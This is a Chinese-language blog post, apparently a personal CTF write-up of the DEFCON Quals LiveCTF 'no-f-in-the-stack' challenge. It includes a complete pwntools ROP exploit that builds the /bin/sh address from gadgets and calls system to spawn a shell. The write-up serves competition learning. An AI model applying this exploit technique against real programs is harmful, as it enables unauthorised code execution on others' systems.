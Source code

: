 ```yaml
---
date: 2025-05-14 10:21:56
layout: post
title: DEFCON Quals LiveCTF writeup
subtitle: 
description: >-
    之前一直是队友做 gadget 题，导致 Rosayxy 这块非常缺乏练习，在本次比赛中尝到了血的教训
image: >-
  /assets/img/uploads/cat_asleep.jpg
optimized_image: >-
  /assets/img/uploads/cat_asleep.jpg
category: ctf
tags:
  - pwn
  - gadgets
author: rosayxy
paginate: true
---
```

这次是 Rosayxy 首打 defcon quals！    
嗯 其实感觉至少 liveCTF 这块没有想象中的难，至少题目都还能逆，然后也都有思路，也没有像 SECCON FINAL/今年阿里云CTF 里面一些完全没思路的题    
当然能不能在规定时间做出来就是另一码事了（流泪）   
LiveCTF 是有6场，每场限时4h，安排如下：   
![alt_text](/assets/img/uploads/livectf_schedule.jpg)

对于 LiveCTF 评价如下，图为打完之后的吐槽，确实最后一道 gadget 题感觉放大水了，但是确实思路没想到（问题在我，之前一直感觉 gadget 题很 dirty 而且不太好玩，所以复现的时候偷懒，而且比赛的时候基本都是队友做...这次终于尝到了血的教训，流泪）         


![alt_text](/assets/img/uploads/livectf_sad.png)     

## Chall 6 - no-f-in-the-stack
没错，这就是那个 gadget 题目   
给了一个栈溢出，要求是 ropchain 里面所有项的 hex 表示没有 a - f 的字符，具体限制是用 `scanf("%lu",...)` 读入 ropchain 中的一项，然后用 `sscanf(printed_addr, "%lx", &stack[i])` 的方法，把 dec 当成 hex 解析然后输出到栈上   

它 `system` 和 `/bin/sh` 的地址都给出了，但是当时没往 `system("/bin/sh")` 的方向想，是因为 `/bin/sh` 的地址是 0x4A04F9，感觉绕不过去 orz   

然后就在尝试在栈上写 `sh\x00` 然后把 rdi 指向它，我们从 main 返回时 rdi 指向栈的较低地址，从而需要找 gadget 升栈   
尝试的方法是把 rsi 控制成升栈的大小，然后用 `add edi, esi` 来升栈    
**但是**，`add edi, esi` 指令会清除掉 edi 的高位，所以 rdi 此时也不是栈地址，所以就 gg 了    

### writeup
nu1l 战队的方法如下，参考 [youtube 的讲解](https://www.youtube.com/live/5Pr7JL89ZV4?si=2V1lwVVoF_I1aTyv)    
大概方法是有 `add rax, rdi; ret` 的 gadget，分两次把 rax 加成 `/bin/sh` 的地址，然后用 `mov rdi, rax; call system` 来调用 system 即可      
```py
from pwn import*
pop_rdi_rbp_ret = 402218
pop_rsi_r15_rbp_ret = 402216
call_system = 401917
system_rax = 401914 # mov rdi, rax; call system
ret = 401965
call_read = 416157 # 需要 rdi + 0x74 是2 这样就可以避免syscall 传参数之类的了
mov_rax_rsi = 405186
deref_rax_ret = 482601
add_edi_esi = 493943 # add edi, esi ; add eax, dword ptr [rax] ; ret
add_rax_rdi = 471885

context(log_level = "debug", arch = "amd64", os = "linux")
p = process("./challenge")
for i in range(5):
    p.recvuntil("Addr pls: ")
    p.sendline(str(300000000)) # 不然 i 会被改掉 就不知道写在啥地方去了

binshell = 0x4A04F9
binshell_1 = 250489
binshell_2 = 250070

payload = [pop_rdi_rbp_ret, binshell_1, 1, add_rax_rdi, pop_rdi_rbp_ret, binshell_2, 1, add_rax_rdi, system_rax]

for i in payload:
    p.recvuntil("Addr pls: ")
    p.sendline(str(i))

# gdb.attach(p,"b* 0x0401A54")
# pause()
p.recvuntil("Addr pls: ") # trigger return
p.sendline("0")

p.interactive()
```

## Chall 5 - TODO
最近忙着一些其他事情 ~ 有时间一定好好复现    
